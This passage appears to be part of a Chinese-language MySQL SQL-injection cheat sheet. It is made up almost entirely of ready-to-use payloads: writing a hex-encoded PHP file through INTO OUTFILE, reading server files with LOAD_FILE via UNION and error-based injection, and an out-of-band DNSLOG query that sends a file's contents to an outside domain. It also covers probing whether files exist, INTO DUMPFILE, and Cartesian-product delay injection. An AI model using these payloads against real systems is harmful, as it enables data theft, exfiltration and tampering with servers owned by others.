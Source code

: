 - LINES STARTING BY（可用于limit等sql注入）

```
SELECT username FROM user WHERE id = 1 into outfile 'D:/2.php' LINES STARTING  BY 0x3c3f70687020706870696e666f28293b3f3e
```

###Load_file 读文件

- 联合注入+load_file读文件

```
SELECT * FROM user WHERE id=-1 UNION select 1,'1',(select load_file('D:/1.php'))
```

- DNSLOG带外查询

```
SELECT id FROM user WHERE id = load_file (concat('\\\\',hex((select load_file('D:/1.php'))),'.t00ls.xxxxxxxxx.tu4.org\\a.txt'))
```

- 报错注入+load_file读文件

```
select * from user  where username = '' and updatexml(0,concat(0x7e,(LOAD_FILE('D:/1.php')),0x7e),0)

select * from user where id=1 and (extractvalue(1,concat(0x7e,(select (LOAD_FILE('D:/1.php'))),0x7e)))
```

### 扫描文件是否存在
**load_file读取文件时，如果没有对应的权限获取或者文件不存在则函数返回NULL,所以结合isnull+load_file可以扫描判断文件名是否存在**

- 如果文件存在，isnull(load_file('文件名'))返回0

```
mysql> select * from user  where username = '' and updatexml(0,concat(0x7e,isnull(LOAD_FILE('D:/1.php')),0x7e),0);
ERROR 1105 (HY000): XPATH syntax error: '~0~'
```

- 如果文件不存在isnull(load_file('文件名'))返回1

```
mysql> select * from user  where username = '' and updatexml(0,concat(0x7e,isnull(LOAD_FILE('D:/xxxxx')),0x7e),0);
ERROR 1105 (HY000): XPATH syntax error: '~1~'
```

### 另类写文件
```
SELECT ... INTO DUMPFILE'file_path'
```

## 笛卡尔积延时注入

```
SELECT count(*) FROM information_schema.columns A;
```
![](https://ae01.alicdn.com/kf/H09e769a89c554836b70373d8130134dcz.jpg)

